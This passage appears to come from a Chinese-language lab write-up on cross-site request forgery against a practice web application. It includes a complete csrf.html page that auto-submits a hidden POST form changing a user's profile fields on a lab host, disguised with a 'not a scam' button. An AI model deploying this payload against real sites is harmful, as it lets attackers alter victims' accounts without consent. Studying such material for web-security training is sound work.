   ```
- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- ![image-20240918184640774](./assets/image-20240918184640774.png)
